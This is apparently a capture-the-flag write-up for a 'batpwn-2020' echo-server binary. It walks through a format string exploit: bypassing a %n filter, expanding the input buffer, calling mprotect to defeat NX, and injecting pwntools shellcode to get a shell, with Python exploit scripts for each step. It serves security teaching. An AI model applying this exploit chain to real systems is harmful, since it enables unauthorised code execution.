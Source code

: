 # Echo Server  
Open the binary in ghidra. The executable is basically:  
```  
while (true) {  
   retrieve 12 characters  
   strip out all "%n"  
   print them  
}  
```

By trying inputs like `%x` etc it is clear that format string attacks is a  
reasonable approach. Let us attempt to write shellcode somewhere and execute
it.

First of all the alarm can be quite annoying. We can disable this in gdb via  
`handle SIGALRM ignore`.

We can attempt to use the `%n` format to write bytes somewhere. However we
note  
that the program removes `%n` if it is present in the input. Fortunately we
can  
bypass this by using the parameter field in the form of `%x$n` where `x` is
the  
parameter number (in this case, location of the stack).

Another problem is that 12 characters is rather short to write shellcode.  
I originally thought that you can only make this shorter, since if you write  
`AA...AA%x$n` the number of characters before the format string is < 12 and  
hence writing it to the location of 12 will only reduce the number. After some  
thought, however, you need not write the number to a location that is aligned  
with the word size.

Basically, the location of the length of the input is at `stack + 1054`. If we  
write at that location, the number written will be < 12:  
```  
before | 00 00 00 0c | (for 12)  
after  |[00 00 00 04]| (for 4)  
```

However, we can write at `stack + 1053`, and we can get some number like  
`4 x ff + 12` instead:  
```  
before     | 00 00 00  0c | (for 12)  
after  [00 | 00 00 04] 0c | (for 4)  
```

So this is what we are doing:  
```python  
def send(s):  
   r.recvline()  
   r.sendline(s)  
   return r.recvline()

# leak stack addr  
s = int(send("%148$x").decode().strip(), 16)  
esp = s - 682

# leak return address  
ret = int(send("%264$x").decode().strip(), 16) - 4

# expand buffer  
send(b"abcd" + p32(esp + 1053) + b"%6$n")

# fix corrupted return address  
write(esp + 4 * 264, ret + 4)  
```

We are leaking the stack address since the binary is compiled with ASLR. The  
location of where the payload is targeting itself is kind of guesswork (just  
find something in the stack that is near the current esp, and then make the  
necessary adjustments).

The leaking of return address is actually not necessary since it is a fixed  
offset from the esp but here I am doing it anyways.

Then, we do the buffer expansion by writing to `esp + 1053`. Afterwards  
we need to write back to `ret + 4` since writing to `esp + 1053` (which is not  
word aligned) corrupts this address.

Another problem is that this binary is compiled with NX, which means that  
writable regions are not executable. Fortunately we can use `mprotect` to  
make it executable. Also this `mprotect` function is somehow statically
compiled  
so we're super lucky here.

```python  
def write(loc, what):  
   while what > 0:  
       next_byte = what & 0xff  
       # print(hex(loc), hex(next_byte))

       if next_byte < 4:  
           send(b"A" * next_byte + b"%7$n" + b"A" * (4 - next_byte) + p32(loc) + b"\n")  
       else:  
           send(p32(loc) + b"A" * (next_byte - 4) + b"%5$n\n")

       loc += 1  
       what >>= 8

# call mprotect on return, then go back to main  
write(ret, context.binary.symbols['mprotect'])  
write(ret + 4, context.binary.symbols['main'])  
write(ret + 8, 0x8048000)  
write(ret + 12, 0x1000)  
write(ret + 16, 7)  
```

Afterwards, we modify the stack so that  
1. Some value becomes 1 (because the loop is actually `while (some value == 0)`)  
  and we can exit from the loop

  ```python  
  write(esp + 0xd4c4 - 0xd0b0, 1)  
  ```

2. It jumps to `mprotect` (see above) with the parameters `0x8048000` (start of  
  page to write), `0x1000` (length of memory to make executable), `7` (for
rwx)  
3. It jumps to `main` afterwards (see above)

Now, we are back in `main`, and we can write shellcode to `0x8048000` and  
execute it. One problem is that we cannot write to addresses with `10` with it  
as it corresponds to `\n`. However, we can write to `0x8048020` instead.

The first line below `esp += 16` is just trial and error really.  
```python  
esp += 16

# leak return address  
ret = u32(send("%264$x")[:4])  
print(ret)

# expand buffer  
send(b"abcd" + p32(esp + 1053) + b"%6$n")

# fix corrupted return address  
write(esp + 4 * 264, ret + 4)

def str_to_int(s):  
   n = 0  
   for c in s:  
       n *= 256  
       n += c  
   return n

# write shellcode  
write(0x8048020, str_to_int(reversed(asm(shellcraft.sh()))))  
# jump to shellcode  
write(ret, 0x8048020)

# get out  
write(esp + 0xd4c4 - 0xd0b0, 1)

r.interactive()  
```

Then we get shell.  

Original writeup
(https://github.com/h4ck3rb0b/writeups/blob/master/batpwn-2020/echo-
server/writeup.md).